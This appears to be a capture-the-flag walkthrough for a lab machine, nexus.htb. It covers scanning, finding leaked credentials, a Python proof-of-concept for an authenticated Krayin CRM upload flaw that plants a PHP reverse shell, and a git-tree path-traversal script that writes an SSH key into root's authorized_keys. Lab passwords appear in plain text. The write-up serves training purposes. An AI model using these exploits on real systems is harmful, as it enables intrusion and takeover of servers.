Port Scanning

```bash
naabu -host 10.129.75.112 -p - -nmap-cli "nmap -sC -sV" -verbose
```

```text
10.129.75.112:22
10.129.75.112:80
```

Running an nmap scan on the found ports 

```bash
nmap -sC -sV -p80,22 10.129.75.112 -A
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 27.530 days (since Sat Jul  4 09:03:12 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   310.07 ms 10.10.14.1
2   290.29 ms 10.129.75.112
```


# 80/tcp

Now, we fuzz for virtual hosts,

```bash
ffuf -u http://nexus.htb -H 'Host: FUZZ.nexus.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 154
```

```text
billing                 [Status: 302, Size: 390, Words: 60, Lines: 12, Duration: 327ms]
git                     [Status: 200, Size: 14472, Words: 1195, Lines: 242, Duration: 255ms]
```







Inspecting the gitea instance, we find a .env file committed and find sensitive credentials in it ....


I enumerated some of the emails into the forget password endpoint and got a hit on `j.matthew@nexus.htb`

Final creds that worked: 

```text
email: j.matthew@nexus.htb
password: N27xh!!2ucY04
```

I found a recent exploit CVE-2026-36340 in Krayin CRM, specifically affecting version 2.1.5 via the compose email function. 



Present Version: 2.2.0, hence vulnerable

Reference : https://github.com/cybercrewinc/CVE-2026-36340

I developed this custom python PoC script

```python
import requests
from urllib.parse import unquote
from bs4 import BeautifulSoup

# ---------------Config---------------------

BASE_URL = "<BASE_URL>"

# Auth creds
email = "<email>"
password = "<password>"


# ------------------------------------------

session = requests.Session()


def extract_token(field="_token", attr="input"):

    resp = session.get(f"{BASE_URL}/admin/login", verify=False)
    soup = BeautifulSoup(resp.text, "html.parser")

    token_input = soup.find(attr, {"name": field})

    if not token_input:
        raise ValueError(f"Could not extract _token from html")

    return token_input.get("value")


def login(csrf_token, email, password):
    data = {
        "_token": csrf_token,
        "email": email,
        "password": password,
    }
    resp = session.post(f"{BASE_URL}/admin/login", data=data, verify=False)

    print("[+] Logged In ...")


def mail_create():

    xsrf_token = unquote(session.cookies.get("XSRF-TOKEN"))

    headers = {
        "X-Requested-With": "XMLHttpRequest",
        "X-XSRF-TOKEN": xsrf_token,
        "Referer": f"{BASE_URL}/admin/mail/inbox",
    }

    print("[*] Creating mail with revshell ...")
    data = {
        "id": "",
        "reply_to[0]": "hacker@hacker.com",
        "temp-reply_to": "",
        "subject": "RCE please",
        "reply": "<p>Remote Code Execution</p>",
        "is_draft": "0",
    }

    files = {
        "attachments[]": (
            "revshell.php",
            open("revshell.php", "rb"),
            "application/x-php",
        ),
    }

    resp = session.post(
        f"{BASE_URL}/admin/mail/create",
        data=data,
        files=files,
        headers=headers,
        verify=False,
    )
    resp.raise_for_status()
    print(f"[+] Mail created ... {resp.status_code}")
    return resp


def extract_url_and_get(resp):
    print("[*] Step 5: Extracting URL from response")

    url = resp.json().get("data").get("attachments")[0].get("url")  # if JSON response

    if not url:
        raise ValueError("Could not extract URL from response")

    print(f"[+] Extracted URL: {url}")
    final_resp = session.get(url, verify=False)
    print(f"[+] Final GET status: {final_resp.status_code}")


def main():
    token = extract_token()

    login(token, email, password)
    resp = mail_create()
    extract_url_and_get(resp)


if __name__ == "__main__":
    main()

```

Have your revshell.php in the same folder as this script and open a listener for the used port in the revshell code and you will get a shell...

This exploit did workout and i got the shell.



I inspected the .env folder and it had a different db_password -> y27xb3ha!!74GbR


 You can see the users at
 
 
 I tried it as a password by ssh for user jones and i got in as jones.



So, I completed the first part which is getting the user flag. Now onto rooting the machine.



Let's run linpeas.sh

There is not internet connection in the box, so it cannot fetch directly from github. We will transfer the file from our machine by setting up a python server.



Linpeas findings ---->

We see a odd kind of timer running for the gitea instance called `gitea-template-sync.service` 


We view the service and got to know about a python file it was running




The python file : at /etc/gitea/template-sync.py run as **root**

The script is basically copying out all the files in all template repos into a directory and it follows the exact directory and subdirectory structure. This makes it vulnerable. If we can create a structure like this
```
└── ..  
	└── ..  
		└── ..  
			└── ..  
				└── root  
					└── .ssh  
						└── authorized_keys
```

We can basically copy our key to authorized_keys and login by ssh into root

That's exactly what we are going to do

First of all we need to create a repo and login into gitea first.

The ssh creds work for jones are also valid for jones's gitea account and we log in as jones into gitea.

We create a repo which is a template, very important step


No we create our pair of keys using in the `/tmp` folder

```bash
ssh-keygen -f ./key -N ''
```

Now we clone the repository our repo and create that folder structure. We do this with this script..

```python
#!/usr/bin/env python3  
import hashlib,zlib,os,subprocess,sys,time  
  
def write_obj(data,t):  
h=("%s %d"%(t,len(data))).encode()+b"\x00"  
s=h+data  
sha=hashlib.sha1(s).hexdigest()  
d=os.path.join(".git","objects",sha[:2])  
os.makedirs(d,exist_ok=True)  
p=os.path.join(d,sha[2:])  
if not os.path.exists(p):  
open(p,"wb").write(zlib.compress(s))  
return sha  
  
def entry(mode,name,sha):  
return("%s %s"%(mode,name)).encode()+b"\x00"+bytes.fromhex(sha)  
  
if not os.path.isdir(".git"):  
print("Run inside git repo");sys.exit(1)  
  
r=subprocess.run(["cat","/tmp/key.pub"],capture_output=True,text=True)  
if r.returncode!=0:  
print("ssh-keygen -f /tmp/key -N ''");sys.exit(1)  
key=r.stdout.strip()+"\n"  
  
blob=write_obj(key.encode(),"blob")  
readme=write_obj(b"# Template\n","blob")  
ssh_t=write_obj(entry("100644","authorized_keys",blob),"tree")  
cur=write_obj(entry("40000",".ssh",ssh_t),"tree")  
fir=write_obj(entry("40000","root",cur),"tree")  
for i in range(4):  
fir=write_obj(entry("40000","..",fir),"tree")  
root=write_obj(entry("100644","README.md",readme)+entry("40000","..",fir),"tree")  
ts=int(time.time())  
c="tree %s\nauthor x <x@x> %d +0000\ncommitter x <x@x> %d +0000\n\ninit\n"%(root,ts,ts)  
sha=write_obj(c.encode(),"commit")  
os.makedirs(os.path.join(".git","refs","heads"),exist_ok=True)  
open(os.path.join(".git","refs","heads","main"),"w").write(sha+"\n")  
print("Done: "+sha)
```

Repo Clone cmd: 

```bash
$ git clone http://jones:'<password>'@localhost:3000/jones/<your_repo>.git
```


Run the script and push the changes 

```bash
$ cd <your_repo> 
$ python3 exploit.py  
$ git push -u origin main --force
```

Change your perms of private key to use it as ssh_auth

```bash
chmod 600 key 
```

Get into root

```bash
ssh -i /tmp/key root@localhost
```

Voila !!!


